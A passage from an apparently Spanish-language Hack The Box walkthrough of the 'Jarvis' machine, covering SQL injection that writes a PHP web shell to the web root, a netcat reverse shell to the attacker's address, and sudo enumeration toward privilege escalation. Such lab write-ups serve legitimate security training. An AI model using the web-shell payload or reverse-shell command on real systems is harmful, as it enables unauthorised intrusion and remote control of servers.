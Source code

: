 Vemos que podemos crear archivos y acceder a ellos, por lo que ya debemos estar pensando en tratar de subir de archivo php que nos permita la ejecución de comandos. Nuestra sentencia sería la siguiente:

```bash
union select 1,2,"<?php echo shell_exec($_REQUEST['cmd']); ?>",4,5,6,7 into outfile "/var/www/html/images/shell.php"
```

![""](/assets/images/htb-jarvis/jarvis-web10.png)

Hemos logrado tener ejecución de comandos a nivel de sistema, así que lo único que nos queda es entablarnos una reverse shell a nuestra máquina de atacante y haremos uso de [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
http://10.10.10.143/images/shell.php?cmd=nc -e /bin/sh 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.143] 39846
whoami
www-data
```

Como siempre y para trabajar más comodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Ahora vamos a enumerar un poco el sistema para ver la forma en la que podamos escalar privilegios.

```bash
www-data@jarvis:/var/www/html/images$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jarvis:/var/www/html/images$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
www-data@jarvis:/var/www/html/images$
```

Vemos que podemos ejecutar el script `/var/www/Admin-Utilities/simpler.py` como el usuario **pepper**. Si checamos, tenemos permisos de lectura y una de las opciones que ya nos debería llamar la atención sería el parámetro `-p`, el cual nos permitiría ejecutar comandos a nivel de sistema como el usuario **pepper**.

```bash
www-data@jarvis:/var/www/html/images$ sudo -u pepper /var/www/Admin-Utilities/simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


```